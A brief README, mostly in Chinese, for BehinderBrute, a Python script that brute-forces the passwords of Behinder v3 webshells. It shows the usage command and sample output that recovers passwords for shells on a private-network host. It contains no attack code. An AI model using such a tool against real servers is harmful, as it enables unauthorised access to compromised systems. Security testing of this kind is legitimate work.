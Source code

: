 
# BehinderBrute

## 使用

> 支持Behinder3，仅使用Behinder_v3.0.11_t00ls进行测试。

``` text
$ python3 behinder3_brute.py -h

 _________________________
< Behinder Webshell Brute >
 -------------------------
        \   ^__^
         \  (oo)\_______             @Author: Arm!tage
            (__)\       )\/\        @Version: v1.0.0
                ||----w |
                ||     ||

Usage:
    python3 behinder3_brute.py <WebShell_File> <Password_File>

$ python3 behinder3_brute.py urls.txt passwords.txt
[+] http://192.168.53.227:8080/behinder/ Password: rebeyond
[+] http://192.168.53.227:8080/admin_shell/admin_shell.jsp Password: admin

```

## Reference

- [Bhinder3 Protocol](https://arrnitage.github.io/Behinder3-Protocol/)
